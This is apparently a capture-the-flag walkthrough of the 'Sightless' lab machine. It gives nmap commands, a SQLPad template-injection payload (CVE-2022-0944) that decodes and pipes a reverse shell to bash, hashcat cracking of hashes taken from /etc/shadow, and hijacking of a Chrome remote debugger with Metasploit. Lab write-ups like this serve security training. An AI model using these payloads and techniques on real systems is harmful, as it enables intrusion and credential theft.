The initial phase began with a full TCP port scan to identify exposed services on the target machine.
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN sightless_scan 10.10.11.32
During the initial web interaction, a button revealed the presence of a subdomain.
sqlpad.sightless.htb

Further service analysis showed that accessing the FTP service required SSL, indicating a secured configuration.

By navigating to the discovered subdomain, the version of SQLPad in use was identified.

The application was found to be vulnerable to CVE-2022-0944, which allows command execution through a Docker shell escape.

To exploit the vulnerability, a reverse shell payload was prepared and encoded in Base64.
This payload was injected into the database connection field within SQLPad.

{{ process.mainModule.require('child_process').exec('echo reverse_encoded=| base64 -d|bash') }}A new database connection was then configured with the required parameters to trigger execution.




The payload executed successfully, resulting in a reverse shell running as the root user.

Inside the system, two user accounts were identified within the home directory.

After performing local footprinting, it was discovered that sensitive files such as /etc/passwd and /etc/shadow were readable.
This made it possible to extract password hashes for offline cracking.


The password hash belonging to the user michael was cracked using hashcat.
hashcat -m 1800 -a 0 shadow-hash.txt /usr/share/wordlists/rockyou.txtWith valid credentials recovered, SSH access as michael was obtained.

Another user named john was also present on the system.
To identify potential privilege escalation vectors, linpeas.sh was executed.
The enumeration revealed processes running under the context of the user john.


One of the processes was running Chrome with the --remote-debugging-port=0 parameter, causing the debugging port to be assigned dynamically.
The process /home/john/automation/chromedriver --port=51801 was identified as a viable target.
Based on this behavior, port forwarding was required to interact with the debugging interface.
Chrome Remote Debugger Pentesting | Exploit Notes (hdks.org)

The debugging service was observed to bind to a random port.

Metasploit was then used to attach to the Chrome remote debugger and interact with the running process.
